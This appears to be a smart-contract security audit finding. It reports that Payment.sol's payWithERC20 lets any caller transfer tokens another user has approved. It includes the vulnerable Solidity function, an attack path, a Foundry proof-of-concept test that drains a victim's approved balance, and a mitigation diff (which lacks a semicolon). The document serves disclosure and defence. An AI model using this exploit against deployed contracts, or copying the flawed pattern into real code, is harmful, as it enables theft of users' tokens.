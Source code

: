 # [H-1] Arbitrary from passed to transferFrom in Payment.sol::payWithERC20 function
## Summary
The payWithERC20 function in the Payment.sol contract is designed to support a gasless flow. While the protocol assumes that the caller is always the msg.sender, this is not strictly enforced. If a user approves the contract to transfer tokens on their behalf, an attacker can front-run the transaction and replace the from address with the victim’s address, effectively transferring tokens to themselves. This could result in unintended token loss for the user.

## Root Cause
in the payWithERC20 function , token.safeTransferFrom(fromAddress, toAddress, amount) uses arbitrary from address instead of using msg.sender.

 ```solidity
  function payWithERC20(address erc20TokenAddress, uint256 amount, address fromAddress, address toAddress) public {  
        // check from and to address  
        require(fromAddress != toAddress, "Cannot transfer to self address");  
        require(toAddress != address(0), "Invalid to address");  
        require(amount > 0, "Amount must be greater than 0");  
        IERC20 token = IERC20(erc20TokenAddress);  
@>        token.safeTransferFrom(fromAddress, toAddress, amount);  
    } 
``` 
## Internal Pre-conditions

a user need to approve the contract some tokens.
## External Pre-conditions
nil

## Attack Path
alice approves the Payment.sol contract some tokens to use the function payWithERC20
bob see's that alice approved the contract some tokens.
bob transfers the tokens approved by alice using the payWithERC20 function setting the to address to bob.

## Impact
the user approving the contract will lose tokens

## PoC
paste this file in a test file and run the test using forge test --mt test_arbitaryTransferFrom
```solidity

// SPDX-License-Identifier: SEE LICENSE IN LICENSE  
pragma solidity ^0.8.26;  
  
import {Test, console} from "forge-std/Test.sol";  
import {Payment} from "../src/Payment.sol";  
import {MockERC20} from "./MockERC20.sol";  
  
contract PaymentTest is Test {  
    Payment payment;  
    MockERC20 mock;  
    address user = makeAddr("user");  
    address alice = makeAddr("alice");  
  
  
    function setUp() external {  
        payment = new Payment();  
        mock = new MockERC20();  
        mock.mint(user, 10e18);  
    }  
  
    function test_arbitaryTransferFrom() external {  
        //1.user appproves the contract to transfer token  
        vm.prank(user);  
        mock.approve(address(payment), 10e18);  
        //2. alice sees this approval and transfers the tokens to herself.  
        vm.prank(alice);  
        payment.payWithERC20(address(mock), 10e18, user, alice);  
        assert(mock.balanceOf(user) == 0);  
        assert(mock.balanceOf(alice) == 10e18);  
    }  
}  
  
```  
## Reccomended Mitigation
```diff
 function payWithERC20(address erc20TokenAddress, uint256 amount, address fromAddress, address toAddress) public {  
        // check from and to address  
        require(fromAddress != toAddress, "Cannot transfer to self address");  
        require(toAddress != address(0), "Invalid to address");  
        require(amount > 0, "Amount must be greater than 0");  
        IERC20 token = IERC20(erc20TokenAddress);  
-       token.safeTransferFrom(fromAddress, toAddress, amount);  
+      token.safeTransferFrom(msg.sender, toAddress, amount)  
    } 
``` 
